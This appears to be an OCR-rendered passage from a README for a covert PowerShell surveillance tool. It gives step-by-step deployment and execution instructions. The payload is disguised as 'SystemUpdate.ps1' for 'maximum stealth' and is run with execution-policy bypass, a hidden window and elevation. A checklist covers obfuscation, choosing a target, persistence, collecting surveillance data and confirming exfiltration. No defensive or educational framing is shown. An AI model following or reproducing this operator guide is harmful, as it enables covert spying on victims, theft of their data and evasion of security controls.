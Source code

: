 #### **Phase 2: Deployment**
```powershell
# Option A: USB Deployment (Recommended)
Copy-Item -Path ".\Deployed\*" -Destination "E:\" -Recurse

# Option B: Single File (Maximum Stealth)
Copy-Item ".\SingleFile.ps1" -Destination "C:\temp\SystemUpdate.ps1"
```

#### **Phase 3: Execution**
```powershell
# Method 1: Direct execution
powershell.exe -ExecutionPolicy Bypass -File "SystemUpdate.ps1"

# Method 2: Silent execution
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File "SystemUpdate.ps1" -Silent

# Method 3: With elevation
Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File SystemUpdate.ps1" -Verb RunAs
```

---

## 📋 Deployment Checklist

### **Pre-Deployment:**
- [ ] Email configuration updated
- [ ] Obfuscation applied
- [ ] Package created
- [ ] Test on isolated system
- [ ] Backup original files

### **Deployment:**
- [ ] Target system identified
- [ ] Access method determined
- [ ] Package transferred
- [ ] Execution method planned
- [ ] Persistence verified

### **Post-Deployment:**
- [ ] Initial execution successful
- [ ] Persistence mechanisms active
- [ ] Surveillance data collected
- [ ] Exfiltration working
- [ ] Cleanup plan ready

---

## 🔧 Advanced Deployment Techniques

